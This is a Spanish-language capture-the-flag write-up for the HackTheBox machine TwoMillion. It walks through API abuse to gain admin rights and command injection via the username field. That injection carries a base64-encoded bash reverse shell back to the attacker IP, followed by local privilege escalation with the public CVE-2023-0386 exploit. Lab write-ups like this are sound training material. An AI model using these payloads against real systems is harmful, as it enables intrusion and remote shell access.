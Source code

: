 ```yaml
---
title: TwoMillion HTB Writeup
published: 2023-04-01
description: 'En esta Maquina Abusamos de una API, para crear un token de invitacion, luego nos enviamos una revshell con una request maliciosa.'
image: './img/1.png'
tags: [Easy]
category: 'HackTheBox'
draft: false 
---
```


## Initial Recon

Primero un ping a la máquina víctima:

```bash
> ping -c 1 10.10.11.221                                                           
PING 10.10.11.221 (10.10.11.221) 56(84) bytes of data.
64 bytes from 10.10.11.221: icmp_seq=1 ttl=63 time=2162 ms

--- 10.10.11.221 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 2162.481/2162.481/2162.481/0.000 ms
```

Inicie el escaneo con nmap:

```bash
> nmap -sS -p- --open --min-rate 2000 -Pn -n 10.10.11.221 -oG scan
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 18:44 AST
Nmap scan report for 10.10.11.221
Host is up (0.089s latency).
Not shown: 61140 closed tcp ports (reset), 4393 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 44.46 seconds
```

```bash
> nmap -p22,80 -sVC 10.10.11.221                                  
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-05 18:48 AST
Nmap scan report for 10.10.11.221 (10.10.11.221)
Host is up (0.076s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp open  http    nginx
|_http-title: Did not follow redirect to http://2million.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.99 seconds
```

## Web
Añadimos el dominio a nuestro /etc/hosts, vemos la página web (Puerto 80).

![Website](./img/web.png)

### Feroxbuster

Vamos a aplicar fuzzing para ver posibles directorios en la web:

![fuzz](./img/fuzz.png)

Al investigar cada uno de nuestros resultados tenemos 2 directorios interesantes **/register** y **/js/inviteapi.min.js**

![alt text](./img/2.png)

### Generate a Invite Code

Al parecer, necesitamos un código de invitación para acceder.

Miramos la otra ruta y vemos que es un script javascript:

![alt text](./img/3.png)

encontrar una función que nos cree un código de invitación

![alt text](./img/4.png)

Vemos que hace una petición POST a una api en **/api/v1/invite/how/to/generate.**

Estoy tratando de hacer una solicitud a la API. **(/api/v1)** pero me dice que no existe por lo que intento generar un código.

```bash
> curl -sXPOST http://2million.htb/api/v1/invite/how/to/generate
{"0":200,"success":1,"data":{"data":"Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr","enctype":"ROT13"},"hint":"Data is encrypted ... We should probbably check the encryption type in order to decrypt it..."}
```

Devuelve una cadena en ROT13

```bash
> echo 'Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb \/ncv\/i1\/vaivgr\/trarengr' | tr 'A-Za-z' 'N-ZA-Mn-za-m'
In order to generate the invite code, make a POST request to \/api\/v1\/invite\/generate
```

Creamos nuestro código de invitación.

```bash
> curl -sXPOST http://2million.htb/api/v1/invite/generate
{"0":200,"success":1,"data":{"code":"VE0yRlgtMlkxOVMtR0JPQzEtNTc5TUs=","format":"encoded"}}
```

```bash
> echo "VE0yRlgtMlkxOVMtR0JPQzEtNTc5TUs=" | base64 -d                                                                         
TM2FX-2Y19S-GBOC1-579MK
```

Ahora, con la cookie que se nos proporciona al iniciar sesión, podemos acceder a más puntos finales de la API.

![alt text](./img/5.png)

### See more information with session cookie

Ahora, con la cookie que se nos proporciona al iniciar sesión, podemos acceder a más puntos finales de la API.

```bash
> curl -s http://2million.htb/api/v1 -b 'PHPSESSID=ugpbnr10pk9rjvclhpskh2rsgh' | jq
{
  "v1": {
    "user": {
      "GET": {
        "/api/v1": "Route List",
        "/api/v1/invite/how/to/generate": "Instructions on invite code generation",
        "/api/v1/invite/generate": "Generate invite code",
        "/api/v1/invite/verify": "Verify invite code",
        "/api/v1/user/auth": "Check if user is authenticated",
        "/api/v1/user/vpn/generate": "Generate a new VPN configuration",
        "/api/v1/user/vpn/regenerate": "Regenerate VPN configuration",
        "/api/v1/user/vpn/download": "Download OVPN file"
      },
      "POST": {
        "/api/v1/user/register": "Register a new user",
        "/api/v1/user/login": "Login with existing user"
      }
    },
    "admin": {
      "GET": {
        "/api/v1/admin/auth": "Check if user is admin"
      },
      "POST": {
        "/api/v1/admin/vpn/generate": "Generate VPN for specific user"
      },
      "PUT": {
        "/api/v1/admin/settings/update": "Update user settings"
      }
    }
  }
}
```

### Change my user settings

Cambiamos nuestra configuración de usuario:

```bash
curl -sXPUT http://2million.htb/api/v1/admin/settings/update -b 'PHPSESSID=ugpbnr10pk9rjvclhpskh2rsgh' -H 'Content-Type: application/json' -d '{"email": "mhil4ne@gmail.com", "is_admin": 1}' 
```

Ahora que somos el usuario admin, podemos inyectar comandos a través del parámetro username.

### RevShell (www-data)

Preparamos nuestro revShell y lo pasamos en Base64:

```bash
curl -sXPOST http://2million.htb/api/v1/admin/vpn/generate -b 'PHPSESSID=ugpbnr10pk9rjvclhpskh2rsgh' -H 'Content-Type: application/json' -d '{"username":"mhil4ne;echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0LjE1MC80NDMgMD4mMQo=| base64 -d | bash"}'
```

```bash
nc -nlvp 443
```

find .env:

Mira el archivo /etc/passwd:

```bash
admin1000:1000::/home/admin:/bin/bash
```

### admin user credentials
Pruebe la contraseña con este usuario:

```bash
admin : SuperDuperPass123
```

# Privilege Escalation

### CVE-2023-0386

Lo llevamos a nuestra máquina de ataque:

```bash
svn checkout https://github.com/DataDog/security-labs-pocs/trunk/proof-of-concept-exploits/overlayfs-cve-2023-0386
```

Compilamos el archivo:

>Install libfuse-dev

```bash
gcc poc.c -o poc -D_FILE_OFFSET_BITS=64 -static -lfuse -ldl -lpthread
```

Pasas el archivo a la máquina víctima:

```bash
# From the victim machine
nc -nlvp 1222 > poc
```

```bash
# From the attacking machine
nc 10.10.11.221 1234 < poc
```
Ahora le damos permisos de ejecucion:

```bash
chmod +x poc
```
Lo ejecutamos

```bash
./poc
```

Ahora eres Root.

```bash
root@2million:~# whoami
root
```